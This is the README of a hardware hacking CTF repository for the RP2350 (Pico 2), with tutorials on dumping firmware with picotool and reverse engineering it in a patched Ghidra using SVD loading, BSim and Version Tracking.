








# Hardware Hacking CTF hcon2026hwctf

If you’re into hardware CTFs, here’s the first public challenge from HC0N CTF 2026 featuring RISC-V RP2350 exploitation challenges (low level)

We’ve tried to make the challenge not too elitist or difficult, so that the hundreds of conference participants have a chance to solve the challenges. I hope we’ve managed to achieve that.

-------
If you want to run the CTF **at home**, grab a **Raspberry Pi Pico 2**, flash this firmware, and **don’t read the write-ups**! -> [ctf.uf2](ctf.uf2)

**Note for anyone using a board(RP2350/RP2354...) different from the CTF one:**  
The CTF PCB has an **SMD LED on GPIO 25**, **you must have an LED on that GPIO**


----

When you finish this CTF, if you liked it, here’s another similar one with different challenges: https://github.com/therealdreg/ctfhardwarehackingcon2026

# Write-ups

**WARNING**: The following write-ups contain spoilers for the challenges. If you want to solve them on your own, we recommend not reading them until you have completed the CTF.

**First** Winner: **@mrexodia** (Duncan Ogilvie) [writeups/first_winner.md](writeups/first_winner.md)



Prize: okhi hardware keylogger USB/PS2 kit + CWP (Certified WifiChallenge Professional) https://github.com/therealdreg/okhi

-----

**Second** Winner: **@M3RINOOOOO** (Cristobal Merino Saez) [writeups/second_winner.md](writeups/second_winner.md)



Prize: Pimoroni PGA2350, PICO2 WH, Pimoroni PICO PLUS 2W, PICO2 H, CWP (Certified WifiChallenge Professional)

------

**Third** Winner: **@p4bl0vx** (Pablo Moya Lopez) [writeups/third_winner.md](writeups/third_winner.md)



Prize: Pimoroni PGA2350, PICO2 WH, Pimoroni PICO PLUS 2W, CWP (Certified WifiChallenge Professional).

# Tips & Tricks by @b1n4ri0 @antoniovazquezblanco & @therealdreg

Here we’ll provide you with some help to make the Hardware Hacking CTF at HCON 2026 easier.

https://www.h-c0n.com



# OS

Linux host should be your first option ;-), debugging works better.

# Serial config

TeraTerm: Setup -> Terminal -> Transmit: CR+LF & [x] Local echo



Others: 
- Transmit: CR+LF
- [x] Local echo
- [x] RTS
- [x] DTR

## GUI For Linux

cutecom:
```
sudo apt-get update
sudo apt-get install cutecom
```

# WARNING

One of the challenges requires hardware debugging. If you’re doing the challenge from home (without a teammate who has another board), then to solve that challenge you’ll also need to buy these two items. (If you don’t buy them, no worries—but you won’t be able to solve that specific challenge.)

- https://www.tiendatec.es/raspberry-pi-pico/2025-raspberry-pi-debug-probe-5056561803265.html
- https://www.tiendatec.es/raspberry-pi-pico/1979-cable-depuracion-pico-jtag-jst-sh-1-0-a-dupont-hembra-15cm-8472496024846.html

# About the scripts

The tools included in this repository were developed by @b1n4ri0 for the community and specifically for the 2026 HCON Hardware Hacking Challenge.


# Exploiting RP2350 RISCV Hazard3 (@Wren6991) 3-stage RV32IMACZb* processor with debug

RISCV Hazard3 is a 3-stage RV32IMACZb* processor with debug support. It is used in the RP2350 microcontroller found on the HCON2026HWCTF board.

# Dumping RISCV Hazard3 firmware using picotool

Dumping firmware from RP2350 devices with `picotool` is a straightforward process. In this section, you will learn how to do it effectively.

Note: `picotool` interacts with RP2350 (and RP2040) devices only when they are in BOOTSEL mode or if the running firmware includes USB stdio support from the Pico SDK.

## Building picotool

Install the necessary build tools and libraries via your favourite package manager.

```bash
sudo apt-get update
sudo apt install build-essential pkg-config libusb-1.0-0-dev cmake -y
```

Create a dedicated directory to keep your tools organized. This ensures the paths used in later steps are correct.

```bash
cd $HOME
mkdir rptools
cd rptools
```

Clone `picotool` and `pico-sdk` projects, we need both the tool itself and the SDK. Note that `picotool` requires `pico-sdk` to compile correctly.

```bash
git clone https://github.com/raspberrypi/picotool.git
git clone https://github.com/raspberrypi/pico-sdk.git
cd picotool
```

Create the build directory and run CMake.

Important: We must use the `-DPICO_SDK_PATH` flag to tell CMake exactly where we downloaded the SDK in the previous step or we can set the `PICO_SDK_PATH` in the enviroment.

```bash
mkdir build
cd build
cmake -DPICO_SDK_PATH=$HOME/rptools/pico-sdk ..
sudo make install
```

By default, accessing USB devices requires root privileges. Copy the udev rule file to allow running `picotool` without using `sudo`.

```bash
sudo cp ../udev/60-picotool.rules /etc/udev/rules.d/ 
```

Reload the udev rules (or unplug and replug your device) and check the version running `picotool version` to ensure everything is working:

```bash
$ ./picotool version
picotool v2.2.0-a4 (Linux, GNU-15.2.0, Release)
```

## Using pre-built binary

If you prefer to skip the build process, you can download the precompiled binary from the [official repository](https://github.com/raspberrypi/pico-sdk-tools/releases).

```bash
gunzip picotool-2.2.0-a4-x86_64-lin.tar.gz
tar -xf picotool-2.2.0-a4-x86_64-lin.tar
cd picotool
```

Running `picotool version` should work as expected:

```bash
$ ./picotool version
picotool v2.2.0-a4 (Linux, GNU-11.4.0, Release)
```

## Enable BOOTSEL mode on RP2350

To perform operations like dumping firmware, `picotool` requires the device to be in BOOTSEL mode. However, `picotool` can also interact with the device if the currently running firmware includes USB stdio support from the Pico SDK.

Below, I will mention several ways to activate this mode. Choose the one that seems most appropriate for your case or simply the one that works for you.

If your board **is not in BOOTSEL mode**, but contains the USB stdio support**,** you will see an output like this when trying to execute `picotool` commands:

```bash
$ ./picotool info
No accessible RP-series devices in BOOTSEL mode were found.

but:

RP2350 device at bus 1, address 23 appears to have a USB serial connection, so consider -f (or -F) to force reboot in order to run the command.
```

### Physically enabling BOOTSEL

This is the standard hardware method used:

1. Unplug the RP2350 board from your computer.
2. Press and hold the`BOOTSEL` or `BOOT` button.
3. Plug the board back into your computer while holding the button.
4. Release the `BOOTSEL` button.

**Alternative (**if you don’t want to unplug the board)**:**

1. Press and hold `BOOTSEL` button.
2. Press and release `RESET` or `RST` button.
3. Release `BOOTSEL`.

You should now be able to execute `picotool` commands:

```bash
$ ./picotool info
Program Information
 name:          hello_usb
 features:      USB stdin / stdout
 binary start:  0x10000000
 binary end:    0x10011d50
 target chip:   RP2350
 image type:    RISC-V
```

### Software enabling BOOTSEL

If the device firmware is running and has USB stdio support, you can force it into BOOTSEL mode without touching the board.

```bash
./picotool reboot -uf
```

The command uses the `-u` flag to specify that we want to reboot specifically into BOOTSEL mode. However, because the device is currently executing user code, `picotool` will ignore it by default. Therefore, we must append the `-f` flag to force the running application to accept the reset command. 

Without `-f`, the operation would fail simply because the tool expects the device to already be in BOOTSEL mode.

```bash
$ ./picotool info
Program Information
 name:          hello_usb
 features:      USB stdin / stdout
 binary start:  0x10000000
 binary end:    0x10011d50
 target chip:   RP2350
 image type:    RISC-V
```

**Tip:** You can execute commands directly on a running device without manually rebooting first by appending the `-f` flag to your command. `picotool` will handle the reboot, execute the command, and reboot back to the application.

```bash
$ ./picotool info -f
Tracking device serial number XXXXXXXXXXXXXXXX for reboot
The device was asked to reboot into BOOTSEL mode so the command can be executed.

Program Information
 name:          hello_usb
 features:      USB stdin / stdout
 binary start:  0x10000000
 binary end:    0x10011d50
 target chip:   RP2350
 image type:    RISC-V

The device was asked to reboot back into application mode.
```

## Dump RP2350 firmware

For this CTF challenge, we can extract the firmware directly without entering in BOOTSEL mode.

I recommend gathering information about the running program. You can do this using the `info` command, which displays the “Program Information” section by default. Since the device is currently running code, we add the `-f` flag to force the connection.

```bash
$ ./picotool info -f
Tracking device serial number XXXXXXXXXXXXXXXX for reboot
The device was asked to reboot into BOOTSEL mode so the command can be executed.

Program Information
 name:          hello_usb
 features:      USB stdin / stdout
 binary start:  0x10000000
 binary end:    0x10011d50
 target chip:   RP2350
 image type:    RISC-V

The device was asked to reboot back into application mode.
```

This output  reveals essential details such as the program name, its memory range and the image architecture.

Now, we proceed to extract te program, create a directory to store the extracted files.

```bash
mkdir -p $HOME/hcon2026hwctf/
```

Run the following command to extract the firmware:

```bash
./picotool save -pvf -t bin $HOME/hcon2026hwctf/hello_usb.bin
```

This single command handles the entire extraction process. It forces the RP2350 to reboot into BOOTSEL mode, reads the currently installed program from the flash memory, and saves it as a raw binary file. To ensure the extraction was correct, it reads the data back to verify that the dumped file matches the content on the chip exactly.

You should get an output like this:

```bash
$ ./picotool save -pvf -t bin $HOME/hcon2026hwctf/hello_usb.bin
Tracking device serial number XXXXXXXXXXXXXXXX for reboot
The device was asked to reboot into BOOTSEL mode so the command can be executed.

Saving file:          [==============================]  100%
Wrote 73040 bytes to /home/b1n4ri0/hcon2026hwctf/hello_usb.bin
Verifying Flash:      [==============================]  100%
  OK

The device was asked to reboot back into application mode.
```

And that's it, you have successfully dumped the program!

Note: Keep in mind that **you have extracted only the installed program**, not the entire contents of the flash memory.

If you encounter errors, verify that the device is properly connected. If the automatic reboot fails, manually enter BOOTSEL mode and run the command again without the `-f` flag. For more information about available options, simply run `picotool help <command>`.

# Reversing RISC-V Hazard3 Firmware with Ghidra

Once the RP2350 firmware has been extracted, the next logical step is reverse engineering. For this task, we recommend using Ghidra. However, certain adjustments are required to ensure an accurate analysis.

## Why Ghidra fails to disassemble correctly

When loading the binary and attempting to disassemble it, you will likely encounter incomplete functions or visually corrupted code. This does not mean your extraction failed. The issue lies in the fact that Ghidra (including version 12.0.2) cannot natively interpret certain instructions specific to this SoC.

The technical reason is that Ghidra implements the RISC-V C (Compressed) and B (Bit-manipulation) extensions based on a preliminary draft specification (v0.92). In contrast, the Hazard3 CPU used in the RP2350 implements the ratified v1.0.0 version. Consequently, many modern instructions are either unknown to Ghidra or have changed since the earlier definitions.

For detailed information on the instructions supported by Hazard3, refer to the official documentation: [wren.wtf/hazard3/doc/](https://wren.wtf/hazard3/doc/)

## Patching Ghidra for Hazard3 Support

To resolve this conflict and achieve correct disassembly, you must update Ghidra's processor definitions to the ratified v1.0.0 spec.

First, locate your Ghidra installation path (e.g., `~/ghidra_12.0_PUBLIC`). Navigate to the RISC-V processor directory and rename the existing `data` folder as a backup:

```bash
export GHIDRA_INSTALL_DIR=~/ghidra_12.0_PUBLIC

cd $GHIDRA_INSTALL_DIR/Ghidra/Processors/RISCV 

mv data data_back
```

Next, clone the repository containing the updated instruction definitions and move the new `data` folder into your Ghidra installation:

```bash
cd $HOME
git clone https://github.com/therealdreg/hcon2026hwctf.git

cp -r hcon2026hwctf/RVGhidraImpl/data $GHIDRA_INSTALL_DIR/Ghidra/Processors/RISCV/
```

## Configuring the Analysis Environment

With the patched processor definitions in place, follow these steps to load the binary correctly:

1. Launch `PyGhidra`.
2. Create a new `Non-Shared Project` (e.g., `hwctf2026`).
3. Drag and drop the binary into the `Active Project` window.
4. Click the **"..."** button in the `Language` field.
5. In the filter box, type `RISCV` and select: `RISCV:LE:32:default:gcc` (RISCV default 32 little gcc).
6. Confirm with `Ok`.
7. Double-click the binary icon to open the `CodeBrowser`.
8. When prompted to analyze the binary, select `No`.

## Binary Analysis

Once the binary is loaded with the correct processor definitions, Ghidra will be able to accurately disassemble the opcodes. However, it is important to note that we are typically dealing with raw `.bin` files. These files do not inherently contain symbol tables or metadata that facilitate analysis.

The amount of recoverable information depends entirely on the binary's origin. In this case, our target is an RP2350 firmware compiled using pico-sdk v2.2.0. This provides a significant advantage since it uses the official SDK, the binary might be compatible with `picotool`. This tool allows us to identify and extract metadata, provided the binary still contains the necessary headers for `picotool` to parse.


By default, Ghidra cannot interpret the memory layout without manual intervention. Attempting to analyze the firmware without a proper memory map will yield poor results and numerous errors. This is due to Ghidra’s architecture, which requires explicit context to resolve references.

In this specific scenario, the program is compiled to execute from SRAM. This means the firmware contains active references to two distinct memory regions with different base addresses. Without a correct configuration, Ghidra struggles to follow the disassembly flow across these regions, significantly complicating the reverse engineering process.

## Automated Setup

To streamline the setup and ensure consistency, I have developed a script that automates the memory mapping and environment configuration. While this automation simplifies the initial steps, reviewing the script's source code or the repository's README is highly recommended to understand the underlying logic of the analysis workflow. For a deeper technical understanding of the memory layout and peripheral mapping, you should also consult the official [RP2350 datasheet](https://pip-assets.raspberrypi.com/categories/1214-rp2350/documents/RP-008373-DS-2-rp2350-datasheet.pdf).

Both the Ghidra RP2350 Setup Tool and the SVD Loader for PyGhidra have been included directly within this repository. The following sections provide detailed instructions on how to install and use these tools effectively.
## Ghidra-RP2350-Setup-Tool-Hcon2026

The `hcon26_rp2350-ctf_auto_setup.py` script is designed to automate the initial configuration and static analysis environment for firmware targeting the Raspberry Pi RP2350 (RISC-V Hazard3 core). This tool is specifically developed to support the reverse engineering tasks associated with the [**H-Con 2026 Hardware Hacking Challenge**](https://github.com/therealdreg/hcon2026hwctf).

Raw binary firmware inherently lacks the file headers and symbol tables required for automatic loading. This forces analysts to manually configure memory maps, entry points, and processor states before any code becomes readable. This tool automates that entire process, instantly preparing the binary for reverse engineering.

## Purpose

This script eliminates the manual setup overhead typically required for embedded firmware analysis. By automating the loading process, it ensures a consistent and functional Ghidra project, allowing participants to focus immediately on vulnerability research and logic analysis rather than environment configuration.

## Key Features

- **Automated Environment Configuration:** Instantly establishes the correct memory layout for the RP2350, defining the Flash (XIP) and SRAM regions with the appropriate permissions required by the decompiler.

- **Entry Point Detection:** Scans for RP2350-specific headers to identify the true execution start address, handling non-standard boot vectors often encountered in "On-RAM" compiled binaries.

- **Context Resolution:** Automatically initializes the Global Pointer `gp` register. This ensures that references to global variables and static data are correctly resolved in the decompiler, rather than appearing as broken offsets.

- **Data Section Reconstruction:** Identifies and relocates initialized sections from Flash to RAM, replicating the boot process. This ensures that string literals and global variables appear in their correct memory locations during analysis.

- **Symbol Recovery:** Heuristically identifies the main application logic and the runtime initialization sequence, allowing the analyst to jump directly to the user code without tracing the entire bootloader manually.


## Installation

1. Download this repository or the `con26_rp2350-ctf_auto_setup.py` file directly.

```bash
git clone https://github.com/therealdreg/hcon2026hwctf.git
```

2. Copy the script file into the `ghidra_scripts` directory of your Ghidra installation.

```bash
cd hcon2026hwctf/GhidraScripts

cp hcon26_rp2350-ctf_auto_setup.py $GHIDRA_INSTALL_DIR/Ghidra/Features/PyGhidra/ghidra_scripts
```

## Usage

1. Import the target `.bin` file into Ghidra (RV32).

2. Open the file in the `Code Browser`.

3. When prompted to analyze the file, select `No`.

4. Open the Script Manager `Window > Script Manager`.

5. Search for `hcon26_rp2350-ctf_auto_setup.py` located in the `RP2350` category.

6. Run the script and wait for the console output to confirm completion. Be sure to read the `Next Steps` information displayed in the console.

7. After the setup script finishes, execute the **RP2350 SVD Loader** to map hardware registers and peripherals.


# RP2350 SVD Loader for Ghidra

## Introduction to SVD Files

System View Description (SVD) files are XML-based documents that contain a detailed description of a microcontroller's peripheral registers. They define memory addresses, register offsets, bitfields, and reset values. In reverse engineering, these files are essential for mapping the raw memory space of a binary into human-readable peripheral names, transforming anonymous memory accesses into identified hardware interactions.

## Purpose

This script is a SVD loader for the RP2350 (Pico 2) adapted for PyGhidra. It automates the creation of memory segments and register definitions based on the official SVD specifications. 

This version has been developed based on the previous work found in the following repositories:

- [https://github.com/wejn/SVD-Loader-Ghidra-RP2040/tree/master](https://github.com/wejn/SVD-Loader-Ghidra-RP2040/tree/master)
- [https://github.com/leveldown-security/SVD-Loader-Ghidra](https://github.com/leveldown-security/SVD-Loader-Ghidra)

Also you can use https://github.com/antoniovazquezblanco/GhidraSVD developed by @antoniovazquezblanco

## Installation

1. Download this repository or the `SVD-Loader-RP2350.py` file directly.

```bash
git clone https://github.com/therealdreg/hcon2026hwctf.git 
```

2. Copy the script file into the `ghidra_scripts` directory of your Ghidra installation.

```bash
cd hcon2026hwctf/GhidraScripts

cp SVD-Loader-RP2350.py $GHIDRA_INSTALL_DIR/Ghidra/Features/PyGhidra/ghidra_scripts
```

## Usage

1. Import the target `.bin`  file into Ghidra.
2. Open the file in the `CodeBrowser`.
3. When prompted to perform auto-analysis, select `No`. 
4. Open the Script Manager, `Window > Script Manager` .
5. Search for `SVD-Loader-RP2350.py` within the `RP2350` category.
6. Execute the script.
7. Select the RP2350 SVD file (link provided in the Resources section below).
8. After the script finishes creating memory blocks and labels, analyze the binary pressing `A`.

## Example




## Resources

- Official RP2350 SVD file: [https://github.com/raspberrypi/pico-sdk/blob/master/src/rp2350/hardware_regs/RP2350.svd](https://github.com/raspberrypi/pico-sdk/blob/master/src/rp2350/hardware_regs/RP2350.svd)
- CMSIS-SVD Data Repository: [https://github.com/cmsis-svd/cmsis-svd-data](https://github.com/cmsis-svd/cmsis-svd-data)


## Setting up PyGhidra

The provided scripts require a working **PyGhidra** environment.

- **Initialize the virtual environment.**

```bash
python3 -m venv .venv
source .venv/bin/activate
```

- **Install dependencies**

```bash
pip install pyghidra cmsis-svd
```

- **Launch PyGhidra**

```bash
$(find $GHIDRA_INSTALL_DIR -name "pyghidraRun")
```

## Troubleshooting: import cmsis-svd

If `SVD-Loader-RP2350.py` fails to find the `cmsis-svd` library, you can install it directly within the PyGhidra interpreter:

1. In the **CodeBrowser**, go to `Window > PyGhidra`.
2. Execute the following snippet:

```python
import subprocess as s
import sys

s.check_call([sys.executable, "-m", "pip", "install", "cmsis-svd"])
```

# Detecting pico-sdk Functions in Ghidra

After configuring Ghidra and disassembling the binary, the next objective is to distinguish the challenge's specific functions from those belonging to the SDK.

Typically, the standard tool for this task is **Ghidra FID (Function ID)**. The workflow involves compiling SDK examples with the same configuration as the target binary to generate an FIDB database, this allows Ghidra to identify and name functions automatically. However, FID has a significantly low recognition rate in this case.

To overcome this limitation, we will use **BSim**. While other alternatives like **Version Tracking** or **Ghidriff** exist, they are primarily designed for comparing changes between versions (patch diffing) and are not as effective for this specific purpose.

## Preparing Reference Binaries from pico-examples

For Ghidra to identify functions via comparison, we must first generate a reference database by compiling the pico-sdk examples. If you want to optimize your time, you can focus on the four essential binaries mentioned at the end of this section.

Clone the official examples repository:

```bash
git clone https://github.com/raspberrypi/pico-examples.git
cd pico-examples
mkdir build
cd build
```
### Raspberry Pi Pico Extension

To use these paths, the Raspberry Pi Pico VS Code extension must be installed. These directory structures are native to the extension's environment.

Once the extension is installed, configure your project selecting **Board Type: Pico 2** and **Architecture (pico2): RISC-V** architecture. Simply creating the project with these settings will trigger the installation of all necessary resources. No additional compilation is required for this case.

We will use a specific configuration for the RP2350 Hazard3, ensuring that symbols and formatting match the challenge binary.

```bash
export PICO_SDK_PATH="$HOME/.pico-sdk/sdk/2.2.0"
export PICO_TOOLCHAIN_PATH="$HOME/.pico-sdk/toolchain/RISCV_ZCB_RPI_2_2_0_3"
```

```bash
cmake -DPICO_PLATFORM=rp2350-riscv \
      -DPICO_BOARD=pico2 \
      -DPICO_COMPILER=pico_riscv_gcc \
      -DCMAKE_BUILD_TYPE=Debug \
      -DPICO_DEFAULT_BINARY_TYPE=copy_to_ram \
      -DPICO_STDIO_USB=1 \
      -DPICO_STDIO_UART=0 \
      -DCMAKE_C_FLAGS="-march=rv32ima_zicsr_zifencei_zba_zbb_zbs_zbkb_zca_zcb_zcmp -mabi=ilp32 -O0 -g3 -fno-omit-frame-pointer -fno-lto" \
      -DCMAKE_EXE_LINKER_FLAGS="-Wl,--print-memory-usage" \
      ..
```

```bash
make -j$(nproc) -k
```

Once compilation is complete, group all `.elf` files into a dedicated directory for easier analysis:

```bash
mkdir ../sdk-elfs
find . -name "*.elf" -exec cp --backup=numbered {} ../sdk-elfs/ \;
```

### Automated Analysis with Ghidra Headless

To process the large volume of generated files, using Ghidra's headless mode is most efficient. Ensure you run the analysis pointing to the project where you have already configured the challenge binary:

```bash
# Run $GHIDRA_INSTALL_DIR/support/analyzeHeadless to check the usage
$GHIDRA_INSTALL_DIR/support/analyzeHeadless $HOME/hcon2026hwctf hwctf2026 -import pico-examples/sdk-elfs -recursive -processor "RISCV:LE:32:default"
```

If you prefer to reduce analysis time, process at least these four files, which contain the majority of the SDK functions present in the challenge:

- `tinyusb_dev_cdc_msc.elf`
- `multicore_runner_queue.elf`
- `hello_gpio_irq.elf`
- `hello_timer.elf`

## Analysis with BSim

When traditional signature identification (FID) is insufficient, BSim is the most powerful alternative. Unlike other methods, BSim is based on code behavior and structure, allowing for cross-architecture comparisons and ignoring variations caused by optimization levels.

### BSim Database Configuration

Although the GUI can be used, performing the configuration via terminal is more efficient for processing multiple binaries.

```bash
cd $GHIDRA_INSTALL_DIR/support
```
Create the H2 database file:
```bash
# Run ./bsim to check the usage
./bsim createdatabase file:/<db_directory_path>/pico_db medium_nosize
```

Extract signatures from the binaries already analyzed in the Ghidra project:

```bash
mkdir ~/bsim_sigs
./bsim generatesigs ghidra:$HOME/hcon2026hwctf/hwctf2026 ~/bsim_sigs --bsim file:/<db_directory_path>/pico_db
```

Finish the process by committing the generated signatures to our database:

```bash
./bsim commitsigs file:/<db_directory_path>/pico_db ~/bsim_sigs
```

### Integration in Ghidra GUI

Once the database is created, link it to the Code Browser:

1. Go to the `BSim > Manage Servers` tab.
2. Click the `green "+" icon` and select the `File` type.
3. Browse and select the database you just created.
4. Click `Dismiss` to close the window.

### Function Identification

There are several ways to search for matches with BSim, the following is most recommended:

- In the decompiler panel, right-click on the **Function name**, `BSim > Search functions`.
- If you get no results, select the bottom option in the BSim menu to open the settings dialog. Here, you can reduce the `Similarity Threshold` to find functions that have undergone slight variations during compilation.

**Tip**: If you are certain a function is correct, but its internal ("child") functions remain unnamed, use the BSim results window:

- Select the parent function and press `Shift + C` to open the comparison.
- Right-click and select `Compare matching callees`.
- Rename it with the correct signature.

## Analysis with Version Tracking

If the BSim option does not suit your needs, you can use **Version Tracking**.

### Creating the Session

In the main Ghidra window, locate the `blue footprints icon` on the far right of the `Tool Chest` to open the Version Tracking tool.

1. Click the `blue footprints icon` in the top-left menu to create a new session.
2. Assign a descriptive name (e.g., `tinyusb_dev_cdc_msc`).
3. Select the SDK ELF file as the source.
4. Select the challenge binary as the destination.
5. Proceed through the precondition checks. You can ignore minor warnings as long as no critical errors occur. Click `Finish`.

### Running Correlators

Three windows will open: Source Tool, Destination Tool, and the Version Tracking console.
In the Version Tracking window:

1. Click the `green "+" icon` (Add additional correlations).
2. Select all available correlators. While some may seem redundant, allowing Ghidra to run them all maximizes the chances of success.
3. Keep the default configuration values, you can adjust them in later sessions if you require higher precision.
4. Click `Finish` and wait for the process to conclude. Generally, BSim-based algorithms will offer the most robust results.

### Validation Strategies

Once Version Tracking results are obtained, there are two primary methodologies for applying changes to the challenge binary:

1. Manual analysis of each match to ensure high precision.
2. Automated acceptance of functions that exceed a specific confidence level, performing manual review only on doubtful results.

To implement the second strategy, it is essential to filter the results to focus on the strongest matches:

- In the `Filter` search bar, type "Function" to display only function correlations.
- **Technical Recommendation:** It is suggested to bulk-accept functions with a confidence score above **0.8**, always verifying the algorithm used for correlation.

### Applying Matches

To confirm and transfer the names to the destination binary, use the `green tick icon` (located between the flag and disk icons).

### Analysis Tips

- It is common to find conflicting functions. In these cases, ignore the automatic assignment and manually validate that the definitions are consistent with the challenge context.
- Try to resolve everything in a **single session**. If that is not possible, create independent sessions for different SDK ELFs and apply changes incrementally.
- If you identify a function with total certainty but the correlators fail to detect adjacent functions, check their location in the original ELF file. Due to the build structure, it is highly likely that the function you are looking for is located at a similar relative address in the challenge binary.

Depending on your analysis style, you can opt for two approaches:

1. Start directly with the reverse engineering of `main`. As you encounter unknown functions, use **BSim** to identify them.
2. Apply **FIDB** first to establish basic functions, then run **Version Tracker** with the BSim correlator to name the entire SDK at once.
  - [FID Tutorial](https://www.tarlogic.com/blog/esp32-firmware-using-ghidra-fidb/)

Choose the method that works best for you.

More information about BSim:
